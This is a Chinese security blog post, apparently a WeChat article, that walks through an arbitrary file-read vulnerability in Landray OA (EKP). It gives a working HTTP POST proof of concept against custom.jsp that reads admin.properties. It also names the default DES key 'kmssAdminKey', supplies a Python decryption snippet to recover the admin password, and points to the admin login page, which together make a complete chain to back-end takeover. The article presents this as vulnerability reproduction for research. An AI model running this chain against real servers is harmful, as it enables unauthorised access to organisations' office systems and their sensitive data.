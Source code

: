 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/4VTgnH3Hg15xE7W478fmUg)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKyI8SNOVqpyMeg5k7mhuVZvdrXnHVmEweCKUtVnlibjSn6D7qMvELhYicw/640?wx_fmt=png)

X 凌 OA 系统任意文件读取 - DES 解密

一、漏洞描述  

深圳市蓝凌软件股份有限公司数字 OA(EKP) 存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息

二、漏洞影响

蓝凌 OA

三、

利用 蓝凌 OA custom.jsp 任意文件读取漏洞 读取配置文件

读取路径：

```
/WEB-INF/KmssConfig/admin.properties
```

读取文件：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKyPPehvwoLicD4Ay350Kvr7tYouRNZR4BWVYeibBPYwiajoEcZ6DibOY2Lrw/640?wx_fmt=png)

POC：

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 127.0.0.1
User-Agent: Go-http-client/1.1
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

获取密码 DES 解密登陆后台：默认密钥为 kmssAdminKey

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKyy8unBaiaVhTeZFXjpZE9FdFQgp9kPW4wiaK8jqUstDhvCX8ovTo9wQTg/640?wx_fmt=png)

访问后台登台：

http://127.0.0.1/admin.do

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKytWxvSyuzicS2ibbOVsO3u1JN5wwlQiaQucr2iaHooQLQynQZ3eXX538IbA/640?wx_fmt=png)  

成功登陆后台：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKyn66vIhhvIGia1KLAxZdROYdLibF5gRnKiaMXKiazsCxQmyYFNG7oU0GTPg/640?wx_fmt=png)

编写 POC 脚本验证：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKyv3vTmR0qvLicg7BzNMzWYiaXLPX9nJKWOI9AONBseZRJQNHPta3gKSOQ/640?wx_fmt=png)

还需要自己去验证解密：  

编写本地 DES 解密：  

```
def decrypt_str(s):
 k = des(Des_Key, ECB, Des_IV, pad=None, padmode=PAD_PKCS5)
 decrystr = k.decrypt(base64.b64decode(s))
 print(decrystr)
 return decrypt_str
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKyT7U9ocreOIJfTqUOIZCyHxjpN3VRcc8KEOeAM18MIdl3UWqAgOKesA/640?wx_fmt=png)

发现 key 字符过长：  

ValueError: Invalid DES key size. Key must be exactly 8 bytes long.

密钥长了，查了一下下 需要前面 8 位就 OK 也能解开

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKylbfqggQicwI4RGbQic5qiaw6Mtwa9eFvlvW66NPWcN4pl7v00dpQ9UpTA/640?wx_fmt=png)

直接解密明文：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKyyJUBC848tOXDm9wU5CIWdtyZ4w6RaX2ca1epaicVM3R9f6Yhy3ETOEA/640?wx_fmt=png)

参考：  

https://github.com/Cr4y0nXX/LandrayReadAnyFile

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

如果本文内容侵权或者对贵公司业务或者其他有影响，请联系作者删除。  

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)
